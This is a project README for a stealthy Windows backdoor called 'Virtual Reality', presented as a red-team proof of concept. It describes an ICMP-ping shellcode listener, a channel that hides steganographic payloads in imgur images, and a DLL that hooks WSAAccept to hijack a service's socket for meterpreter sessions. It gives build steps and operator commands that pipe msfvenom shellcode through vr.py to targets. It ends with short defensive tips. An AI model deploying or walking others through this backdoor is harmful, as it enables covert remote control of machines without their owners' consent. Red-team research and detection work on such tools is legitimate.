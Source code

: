 Virtual Reality
===============

This is a backdoor project for windows operating systems.

## Intended audience

This is a proof-of-concept stealthy backdoor aimed to aid red teams in maintaining
control of their targets during the security evaluation process. The project also intends
to expose ways to abuse standard features.

## Features

Extremely stealthy backdoor for Windows platform.

* ICMP-PING backdoor. Passively listens for incoming pings and executes shellcode
delivered in ping payload.
* HTTP backdoor using steganographically encoded images hosted on imgur.com
* Grand-theft-socket - a payload for executing shellcode through the socket of existing
service,
* Runs on anything from XP to W10

## Details

* Small size by using tinystl and avoiding standard c++ stl
* Cooperative multitasking achieved by using Windows fibers
* Permissively licensed, including all dependencies

## Build instructions

1. (Optional) Download appropriate [VC-LTL](https://github.com/Chuyu-Team/VC-LTL/releases)
and extract to `VC-LTL` folder.
2. `git clone https://github.com/rokups/virtual-reality`. Now you have two folders next to
each other: `VC-LTL` and `virtual-reality.
3. `mkdir cmake-build; cd cmake-build`.
4. `cmake -DCMAKE_BUILD_TYPE=MinSizeRel ../virtual-reality`.
5. `cmake --build . --config MinSizeRel`. Note that VC-LTL does not support debug builds.
Do not build `Debug` configuration or ensure that `_DEBUG` preprocessor symbol is undefined.
6. Payloads are found in `cmake-build/bin` directory.

VC-LTL is used for linking to `msvcrt.dll` and greatly reducing executable sizes.

MinGW builds are deprecated. They may work or may be broken. Reason for this is that
executables built with MinGW crash when used in some injection techniques. I did not
care enough to figure it out.

## Instructions

Modify `config.h` to suit your needs.

Use `vr.py` to interact with the backdoor.

### Shellcode payload

`vr.py shellcode path/to/shellcode.bin` reads shellcode into the script's memory.
On its own this is useless therefore combine it with other commands. You may
use `-` instead of path in order to read shellcode from `stdin`.

### Ping transport

`msfvenom <...> | vr.py shellcode - -- ping 192.168.0.1` reads a shellcode from
`stdin` and sends it via icmp-ping to `192.168.0.1`. Backdoor running on that
machine will execute this shellcode.

The shellcode will be delivered to the target by sending it as ICMP-PING packet payload.

![ping-demo](https://user-images.githubusercontent.com/19151258/52339219-2c742600-2a15-11e9-95b0-212485421e35.png)

Content of the packet appears to be random. The only give-away that something is up
is a rather big packet size, although it is possible to customized packet size
using ping utility or specify custom payload (Linux).

### imgur.com transport

`msfvenom <...> | vr.py shellcode - -- png path/to/image.png` reads a shellcode
from `stdin` and encodes into specified `image.png`. This image must exist and
it must be in RGB format (no alpha). Resulting image should be uploaded to
https://imgur.com/ and tagged with one or more tags while one of the tags must be
one that is specified in `config.h`.

The shellcode will be encoded into a specified image by altering the last two bits of
each color component in the target image. 1 byte needs 4 color components
to be encoded and thus requires 1.(3) pixels. Encoded images are indistinguishable
from original to the naked eye. Backdoor queries imgur API for listing images
tagged with a configured tag. Every new image is downloaded and inspected for
encoded payload.

![steg-demo](https://user-images.githubusercontent.com/19151258/52338654-adcab900-2a13-11e9-9887-3a55cde9dc36.png)

Left - original image. Right - image with the encoded payload. Bottom - difference mask.
120x75 image was used. As you can see only a tiny portion of the pretty small image is used
to encode 449 bytes payload.

### Grand-theft-socket

This is a technique meant to backdoor a machine that:
1. Has a public service listening (TCP).
2. No outgoing traffic is allowed.

`gts.dll` payload is meant to be injected to process of service that listens on public
interface. This payload hooks `WSAAccept()` function and allows creating meterpreter
session through the listening socket of already existing service while still allowing
normal traffic to flow as if nothing has happened.

When new connection is being made payload does the following:
1. Looks for a `tcp_knock` command and if found - whitelist command sender and terminate the connection.
2. When connection comes from a whitelisted IP address:
  1. Spawn a new process.
  2. `WSADuplicateSocket()` newly connected socket into the newly created process.
  3. The new process will read shellcode size, shellcode itself and execute received shellcode.
  4. Simulate disconnection by returning `INVALID_SOCKET` with `WSAECONNRESET` error to the host process.
  5. Clear whitelisted address. A new knock will be required for executing the next payload.
3. When connection is made from non-whitelisted address and no `tcp_knock` is received -
hand connection back to the host.

Usage:
1. On target host - inject `gts.dll` into process that accepts connections.
2. On source host - execute `vr.py tcp_knock target_ip_address service_port`
3. On source host - execute `meterpreter/bind_tcp` payload with `RHOST=target_ip_address`
and `LPORT=service_port` within 30 seconds since sending `tcp_knock`.
4. Observe that you just received meterpreter session.

## Security

Payload is always obfuscated using the RC4 algorithm. As you probably have guessed
replay attacks are a thing against this backdoor. Also, backdoor may be controlled
by a rival blue team if they have reverse-engineered sample and recovered RC4
key. Utmost security is not the point of this project. If the blue team is on to the
backdoor - nothing will save it anyway.

## Recommendations

* If possible - filter out ICMP-PING packets within the firewall
* Take a proactive approach in monitoring your networks. Log everything and
look for abnormalities. Chances are your servers have no business querying
imgur.com or similar social media domains.
* Periodically scan your critical services for inline hooks.

## etc

Q: Why this name? This has nothing to do with virtual reality.

A: Nothing at all. And no reason really. Naming is hard.
